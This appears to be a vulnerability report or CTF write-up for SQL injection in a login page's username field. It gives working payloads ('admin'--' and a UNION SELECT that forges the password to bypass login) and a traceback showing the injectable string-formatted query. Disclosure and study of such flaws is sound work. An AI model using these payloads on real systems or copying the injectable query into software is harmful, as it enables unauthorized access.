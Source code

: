 
## Title
> Flag

## Description
> In the "login" page, Username has SQL Injection vulnerability.

## Reproduction Steps
1. Go to login page /login
2. Username: admin'--
3. Password: password1
4. Press Log In button
5. --> Error you see
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```
6. Username: admin' UNION SELECT "password1" as password FROM admins where ' '=' ';--
7. Password: password1
8. Press Log In button!